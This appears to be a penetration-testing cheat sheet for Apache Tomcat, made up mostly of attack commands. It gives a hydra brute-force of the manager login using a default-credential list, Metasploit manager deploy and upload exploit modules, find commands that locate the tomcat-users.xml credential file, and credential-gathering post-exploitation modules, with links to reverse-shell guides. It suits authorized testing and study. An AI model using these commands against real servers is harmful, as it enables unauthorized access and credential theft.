 # Apache Tomcat

`$ hydra -C Seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://<IP>:<PORT>/manager/html`

```
msf > exploit/multi/http/tomcat_mgr_deploy

msf > use exploit/multi/http/tomcat_mgr_upload
```

https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/tomcat_mgr_deploy.md

https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/tomcat_mgr_upload.md

[VK9 Security: Apache Tomcat Manager .war reverse shell](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/)

```
$ find / -name "tomcat-users.xml" 2>/dev/null

$ find / -name "tomcat-users.xml" 2>&1
```

```
meterpreter > run post/windows/gather/enum_tomcat
```

```
msf > use post/multi/gather/tomcat_gather
```

https://viperone.gitbook.io/pentest-everything/everything/ports/ports-8080-8180-apache-tomcat

https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/multi/gather/tomcat_gather.md

---
## References

- [Hacktricks: Tomcat](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat)

- [Hacking Articles: Tomcat Penetration Testing](https://www.hackingarticles.in/tomcat-penetration-testing/)

https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote